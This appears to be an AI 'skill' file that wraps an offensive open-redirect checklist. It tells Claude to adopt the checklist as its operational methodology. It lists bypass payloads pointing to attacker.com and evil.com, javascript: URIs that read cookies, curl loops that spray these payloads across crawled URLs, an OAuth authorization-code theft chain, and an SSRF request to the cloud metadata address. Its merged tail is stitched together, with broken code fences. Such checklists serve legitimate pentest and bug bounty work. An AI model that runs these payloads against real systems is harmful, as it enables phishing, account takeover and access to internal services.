




# SKILL: Open Redirect Vulnerabilities

## Metadata
- **Skill Name**: open-redirect
- **Folder**: offensive-open-redirect
- **Source**: https://github.com/SnailSploit/offensive-checklist/blob/main/open-redirect.md

## Description
Open redirect vulnerability checklist: parameter identification, bypass techniques (URL encoding, double slashes, CRLF injection, protocol handlers), chaining with OAuth/SSRF, and impact escalation paths. Use for web app testing and bug bounty open redirect discovery.

## Trigger Phrases
Use this skill when the conversation involves any of:
`open redirect, URL redirect, redirect bypass, URL encoding bypass, CRLF, protocol handler, redirect chain, OAuth redirect, SSRF chain, open redirection`

## Instructions for Claude

When this skill is active:
1. Load and apply the full methodology below as your operational checklist
2. Follow steps in order unless the user specifies otherwise
3. For each technique, consider applicability to the current target/context
4. Track which checklist items have been completed
5. Suggest next steps based on findings

---

## Full Methodology

# Open Redirect Vulnerabilities

## Shortcut

- Search for redirect URL parameters. These might be vulnerable to parameter based open redirect.
- Search for pages that perform referer based redirect. These are candidates for a referer based open redirect.
- Test the pages and parameters you've found for open redirect.
- If the server blocks the open redirect, try the protection bypass techniques mentioned before.
- Brainstorm ways of using the open redirect in your other bug chains.

## Mechanisms

Open redirect vulnerabilities occur when web applications improperly validate user-supplied URLs used for redirections. These vulnerabilities allow attackers to craft links that appear legitimate but redirect victims to malicious websites. When exploited, the victim initially connects to a trusted domain, giving the malicious link an appearance of legitimacy, before being redirected to an attacker-controlled destination.



The core technical flaws leading to open redirects include:

- **Insufficient URL Validation**: Failure to properly validate redirect targets
- **Improper Allowlist Implementation**: Flawed validation logic that can be bypassed
- **Inadequate Sanitization**: Incorrect handling of special characters or encoding
- **Trusting Client-Side Input**: Using user-supplied parameters for redirection without verification

### Notes

- Browsers restrict `javascript:` navigations from cross-origin contexts more, but many apps forward redirects to clients; validate server-side before emitting 3xx.
- OAuth/SSO stacks increasingly require exact `redirect_uri` match; test for partial/path-only allowlists and case/encoding mismatches.
- Mobile deep links: open redirects can escalate to app link hijack; test `intent:` URLs on Android and iOS universal link fallbacks.

### Modern Browser Behaviors

- **Chrome 120+ Restrictions**: Enhanced protection against cross-site redirects; test if app relies on specific redirect chains
- **SameSite Cookie Implications**: `SameSite=Lax` default affects redirect flows; test authentication state preservation
- **Referrer-Policy Impact**: `no-referrer` or `strict-origin` may break redirect detection; test logging/analytics dependencies
- **COOP/COEP Headers**: Cross-Origin-Opener-Policy can break popup-based OAuth flows
- **Fenced Frames**: New iframe replacement affects redirect chains in isolated contexts

Open redirects can exist in various implementation patterns:

- **URL Parameter Redirects**: Explicit redirect parameters (e.g., `?redirect=`, `?url=`, `?next=`)
- **Path-Based Redirects**: URL paths that trigger redirects (e.g., `/redirect/https://example.com`)
- **Referer-Based Redirects**: Redirects based on the HTTP Referer header
- **Post-Authentication Redirects**: Return URLs after login or authentication flows
- **URL Shorteners**: Services that redirect to expanded URLs
- **Framework Redirector Endpoints**: Dedicated redirection functionality in web frameworks

## Hunt

### Identifying Open Redirect Vulnerabilities

#### Target Discovery

1. **Identify Redirection Parameters**:
   - Common redirect parameter names:
     ```
     redirect, redirect_to, url, link, goto, return, returnTo, destination,
     next, checkout, checkout_url, continue, return_path, return_url,
     forward, path, redir, redirect_uri, view, img_url, image_url, load_url
     ```

2. **Find Redirection Endpoints**:
   - Social login integrations
   - Authentication flows
   - Payment gateways
   - "Share" functionality
   - URL shorteners
   - SSO implementations
   - File/resource access endpoints

3. **Search Code and Documentation**:
   - Review JavaScript for redirect functions
   - Check for framework-specific redirect endpoints
   - Analyze HTTP 3xx response patterns

#### Testing Methodologies

1. **Basic Open Redirect Testing**:
   - Test with absolute URLs:
     ```
     https://target.com/redirect?url=https://attacker.com
     https://target.com/redirect?next=https://attacker.com
     ```
   - Test with protocol-relative URLs:
     ```
     https://target.com/redirect?url=//attacker.com
     ```
   - Test with relative path traversal:
     ```
     https://target.com/redirect?url=/../redirect?url=https://attacker.com
     ```

2. **Referer-Based Open Redirect Testing**:
   - Identify pages that redirect based on Referer header
   - Modify Referer header to external domains
   - Test login/logout pages with custom Referer values

3. **OAuth Redirect Testing**:
   - Identify OAuth implementation redirect_uri parameters
   - Test for improper validation:
     ```
     https://target.com/oauth/authorize?client_id=CLIENT_ID&redirect_uri=https://attacker.com
     ```

## Bypass Techniques



### Domain Spoofing Techniques

```
https://target.com/redirect?url=https://target.com.attacker.com
https://target.com/redirect?url=https://attacker.com?target.com
https://target.com/redirect?url=https://attackertarget.com
```

### CDN/Reverse Proxy Quirks

- Mixed scheme parsing (https;/) accepted upstream but normalized downstream.
- Double decode at different layers (edge vs. origin) enabling `%252F` style bypass.
- Header-driven redirects (X-Original-URL, X-Forwarded-Proto) abused through misconfigured proxies.

### Encoding Bypass Techniques

```
https://target.com/redirect?url=https%3A%2F%2Fattacker.com
https://target.com/redirect?url=%68%74%74%70%73%3a%2f%2f%61%74%74%61%63%6b%65%72%2e%63%6f%6d
```

### Protocol Confusion Bypasses

```
https://target.com/redirect?url=javascript:alert(document.domain)
https://target.com/redirect?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
https://target.com/redirect?url=https;/attacker.com
```

### Path-Based Bypasses

```
https://target.com/redirect?url=/\/attacker.com
https://target.com/redirect?url=////attacker.com
https://target.com/redirect?url=\/\/attacker.com/
```

### Special Character Abuse

```
https://target.com/redirect?url=https://target.com@attacker.com
https://target.com/redirect?url=https://attacker.com#target.com
https://target.com/redirect?url=https://attacker.com\@target.com
```

## Vulnerabilities

### Common Open Redirect Vulnerability Patterns

#### Implementation-Specific Vulnerabilities

1. **Framework Redirector Vulnerabilities**:
   - **Spring MVC**: Improper handling of the `url` parameter
     ```
     /spring/login?url=https://attacker.com
     ```
   - **Laravel**: Unvalidated redirect in `redirect()` helper
     ```
     /redirect?url=https://attacker.com
     ```
   - **Express.js**: Unvalidated `res.redirect()` calls
     ```
     /login?redirect=https://attacker.com
     ```
   - **Next.js (App Router)**: Server Actions redirect abuse
     ```
     // Test Server Action redirect injection
     /api/action?redirect=https://attacker.com
     ```
   - **SvelteKit**: `goto()` and `redirect()` manipulation
     ```
     // Test in hooks.server.ts
     /auth/callback?redirectTo=https://attacker.com
     ```
   - **Remix**: loader/action redirect injection
     ```
     /login?redirectTo=https://attacker.com
     ```
   - **Astro**: redirect() in API routes
     ```
     /api/redirect?url=https://attacker.com
     ```

2. **OAuth Implementation Vulnerabilities**:
   - **Implicit Flow Redirect**: Missing validation in `redirect_uri`
     ```
     /oauth/authorize?response_type=token&redirect_uri=https://attacker.com
     ```
   - **Authorization Code Flow**: Improper `state` parameter handling
     ```
     /oauth/callback?code=ABC123&state=https://attacker.com
     ```

3. **Social Login Vulnerabilities**:
   - **Facebook Login**: Unvalidated return_url parameter
     ```
     /login/facebook/callback?return_url=https://attacker.com
     ```
   - **Google OAuth**: Improper redirect_uri validation
     ```
     /auth/google/callback?redirect_uri=https://attacker.com
     ```

### Impact Scenarios



#### Phishing Attack Vectors

- **Domain Credibility Abuse**: Leveraging trusted domain for phishing
- **Session Fixation Enhancement**: Combining with session fixation attacks
- **Context-Aware Phishing**: Using information from the original site

#### CSRF Augmentation

- **Redirect Chaining**: Creating multi-step attack chains
- **Login CSRF**: Forcing login to attacker-controlled accounts

#### Advanced Attack Chains

- **XSS via Open Redirect**: Using JavaScript URIs for XSS
  ```
  https://target.com/redirect?url=javascript:alert(document.cookie)
  ```
- **SSRF via Open Redirect**: Internal service access
  ```
  https://target.com/redirect?url=http://internal-service/admin
  ```
- **OAuth Token Theft**: Stealing OAuth tokens via redirect_uri manipulation

## Methodologies

### Tools

#### Open Redirect Detection Tools

- **OWASP ZAP**: Open redirect scanner
- **Burp Suite**: Collaborator for testing blind redirects
- **OpenRedireX**: Specialized open redirect testing tool
- **Gxss**: Tool to check for redirect XSS
- **Waybackurls**: For discovering historical redirect endpoints
- **Param Spider**: For discovering URL parameters

#### Custom Detection Scripts

```python
import requests
from urllib.parse import urlparse

def test_open_redirect(target_url, redirect_param, payloads):
    for payload in payloads:
        test_url = f"{target_url}{redirect_param}={payload}"
        try:
            # Disable redirects to manually check
            response = requests.get(test_url, allow_redirects=False, timeout=10)
            if response.status_code in [301, 302, 303, 307, 308]:
                location = response.headers.get('Location', '')
                parsed = urlparse(location)
                if parsed.netloc and parsed.netloc not in target_domain:
                    print(f"Potential Open Redirect: {test_url} -> {location}")
        except Exception as e:
            print(f"Error testing {test_url}: {e}")

# Target website
target_url = "https://target.com/redirect?"
target_domain = "target.com"
redirect_param = "url"

# Common bypass payloads
payloads = [
    "https://attacker.com",
    "//attacker.com",
    "https%3A%2F%2Fattacker.com",
    "/\/attacker.com",
    "https://target.com@attacker.com",
    "https://target.com.attacker.com",
    "javascript:alert(document.domain)"
]

test_open_redirect(target_url, redirect_param, payloads)
```

### Testing Strategies



#### Comprehensive Open Redirect Testing Process

1. **Discovery Phase**:
   - Map all redirection functionality
   - Identify redirect parameters through:
     - Manual testing
     - Automated crawling
     - Source code review
     - Parameter discovery tools

2. **Initial Testing Phase**:
   - Test basic payload patterns:
     ```
     ?redirect=https://attacker.com
     ?redirect=//attacker.com
     ?redirect=\/\/attacker.com
     ```
   - Observe redirection behavior
   - Document instances of successful redirects

3. **Bypass Testing Phase**:
   - Test against identified protection mechanisms:
     - Domain validation bypasses
     - Encoding bypasses
     - Protocol bypasses
     - Path manipulation bypasses

4. **Exploitation Phase**:
   - Create proof-of-concept exploits
   - Chain with other vulnerabilities where possible
   - Demonstrate potential impact scenarios

5. **Documentation Phase**:
   - Document vulnerable parameters and endpoints
   - Note successful bypass techniques
   - Provide clear reproduction steps

### Real-World Testing Examples

#### OAuth Redirect Testing

1. Identify OAuth implementation
2. Locate redirect_uri parameter
3. Test various redirect_uri values:
   - https://attacker.com
   - https://target.com.attacker.com
   - https://targetattacker.com
4. Check for token leakage in the redirection

#### Post-Authentication Redirect Testing

1. Authenticate to the application
2. Identify post-login redirects
3. Test redirect parameters with different formats:
   - Absolute URLs: `https://attacker.com`
   - Relative with protocol: `//attacker.com`
   - Encoded values: `%68%74%74%70%73%3a%2f%2f%61%74%74%61%63%6b%65%72%2e%63%6f%6d`

#### URL Shortener Testing

1. Identify URL shortening functionality
2. Submit malicious URLs for shortening
3. Test shortening of various payload formats:
   - javascript:alert(1)
   - data: URLs
   - Protocol-less URLs: //attacker.com

## Remediation Recommendations

- **Implement Proper Validation**:
  - Use allowlists of permitted domains
  - Validate using server-side logic (not client-side)
  - Implement URI parsing libraries for proper validation

- **Use Indirect References**:
  - Instead of directly using user input for redirects, map to server-side values
  - Example: Use numeric IDs that map to pre-approved URLs

- **Implement Safe Redirect Patterns**:
  - Create a warning page for external redirects
  - Include clear indicators of leaving the site
  - Add visual cues for external navigation

- **Technical Controls**:
  - Validate protocol (only http/https)
  - Validate domain against allowlist
  - Use full URL parsing rather than simple string checks
  - Implement CSRF protection for redirect endpoints
  - For mobile deep links, validate package/bundle IDs and enforce App Links/Universal Links verification.


---

# Additional Techniques (merged from hunt-open-redirect/SKILL.md)

## Crown Jewel Targets

Open redirect alone is Low. Chained to OAuth = Critical (ATO).

**Highest-value chains:**
- **Open redirect → OAuth auth code theft** — redirect_uri contains open redirect on trusted domain → auth code sent to attacker → ATO
- **Open redirect → phishing** — users trust the URL because it starts with target.com
- **Open redirect → SSRF escalation** — if redirect followed server-side → SSRF
- **Open redirect → session fixation** — force user to login endpoint with pre-set session

---

## Attack Surface Signals

```
?redirect=
?next=
?url=
?return=
?returnTo=
?continue=
?dest=
?destination=
?go=
?forward=
?location=
?target=
?redir=
?redirect_uri=
?callback=
?checkout_url=
?success_url=
?cancel_url=
/logout?returnTo=
/login?next=
/sso?callback=
```

---

## Bypass Table

| Technique | Payload |
|-----------|---------|
| Basic | `https://evil.com` |
| Protocol relative | `//evil.com` |
| Backslash bypass | `/\\evil.com` |
| At-sign confusion | `https://target.com@evil.com` |
| Double slash | `//evil.com/%2F..` |
| URL encoding | `%2Fevil.com` |
| Null byte | `evil.com%00target.com` |
| Whitespace | `evil.com%09` or `%20` |
| JavaScript URI | `javascript:window.location='https://evil.com'` |
| Data URI | `data:text/html,<script>window.location='https://evil.com'</script>` |
| Subdomain | `https://target.com.evil.com` |
| Fragment | `https://evil.com#.target.com` |

---

# Extract all redirect candidates from crawl
cat recon/$TARGET/urls.txt | gf redirect > recon/$TARGET/redirect-candidates.txt
wc -l recon/$TARGET/redirect-candidates.txt

# Less common param names
grep -E "(\?|&)(return|next|dest|go|forward|location|to|jump|target|out|link|logout)" \
  recon/$TARGET/urls.txt >> recon/$TARGET/redirect-candidates.txt
```

### Phase 2 — Basic Test
```bash
COLLAB="https://evil.com"
cat recon/$TARGET/redirect-candidates.txt | qsreplace "$COLLAB" | while read url; do
  LOC=$(curl -s -I --max-redirs 0 "$url" | grep -i "^location:")
  STATUS=$(curl -s -o /dev/null -w "%{http_code}" --max-redirs 0 "$url")
  [ -n "$LOC" ] && echo "$STATUS | $LOC | $url"
done
```

### Phase 3 — Bypass Techniques
```bash
BASE_URL="https://$TARGET/redirect?url="
PAYLOADS=(
  "https://evil.com"
  "//evil.com"
  "/\\evil.com"
  "https://$TARGET@evil.com"
  "https://evil.com%23.$TARGET"
  "https://evil.com%09"
)
for P in "${PAYLOADS[@]}"; do
  LOC=$(curl -s -I --max-redirs 0 "${BASE_URL}${P}" | grep -i "^location:")
  echo "$P → $LOC"
done
```

# If target has OAuth, check if redirect_uri accepts open redirect
grep -i "oauth\|authorize\|redirect_uri" recon/$TARGET/urls.txt | head -20

# Attack: redirect_uri=https://target.com/redirect?url=https://evil.com
OAUTH_URL="https://$TARGET/oauth/authorize"
curl -sv "$OAUTH_URL?response_type=code&client_id=CLIENT_ID&redirect_uri=https://$TARGET/redirect%3Furl%3Dhttps%3A%2F%2Fevil.com" 2>&1 | grep -i "location:"
```

# If the app fetches the redirect target server-side (302 fetch follow)
curl -s "https://$TARGET/proxy?url=https://evil.com/redirect-to-169.254.169.254/latest/meta-data/"

# Or: if app makes HTTP request to the redirect destination
curl -s "https://$TARGET/fetch?url=http://169.254.169.254/latest/meta-data/" \
  -H "Cookie: $SESSION"
```

---

# gf + qsreplace
cat recon/$TARGET/urls.txt | gf redirect | qsreplace "https://evil.com" | \
  xargs -I{} curl -s -o /dev/null -w "%{http_code} %{redirect_url}\n" --max-redirs 0 {}
```

---

## Chain Table

| Open redirect finding | Chain to | Impact |
|----------------------|----------|--------|
| Any open redirect | OAuth redirect_uri bypass | Auth code theft → ATO |
| Any open redirect | Phishing URL with target domain | Social engineering |
| Server-side redirect | SSRF via followed redirect | Internal service access |
| Logout redirect | Session fixation | Force login with known session |

---